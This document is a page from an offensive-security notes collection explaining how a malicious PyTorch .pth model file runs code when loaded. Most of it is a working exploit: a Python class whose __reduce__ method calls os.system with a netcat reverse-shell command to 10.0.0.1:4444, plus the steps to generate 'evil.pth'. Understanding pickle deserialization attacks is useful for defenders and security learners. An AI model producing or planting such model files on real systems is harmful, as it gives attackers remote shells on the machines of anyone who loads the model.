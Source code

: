# Pytorch Models/PTH Files Code Execution

## Theory

A file with a `.pth` extension typically contains a serialized PyTorch state dictionary. A PyTorch state dictionary is a Python dictionary that contains the state of a PyTorch model, including the model's weights, biases, and other parameters.

We can craft a malicious .pth file that will execute arbitrary code when model is loaded/trained/evaluated in the target system.

## Practice - Model Serialization Attack

{% tabs %}
{% tab title="Exploit" %}

{% endtab %}

{% tab title="Second Tab" %}
### 1 - Install Dependencies

It requires `torch` so install it:

```bash
# Create a virtual environment to avoid pulluting the host environment.
python3 -m venv myvenv
pip3 install torch
```

### 2 - Create Python Script To Generate Malicious Model

Now create a Python script that generates our malicious ML model. This model executes OS command when it is evaluated.

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

### 3 - Run Python Script

Now execute this Python script as below:

```bash
python3 generate_model.py
```

After that, our model named `evil.pth` will be generated.


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/machine-learning/model/create-malicious-ml-model/" %}
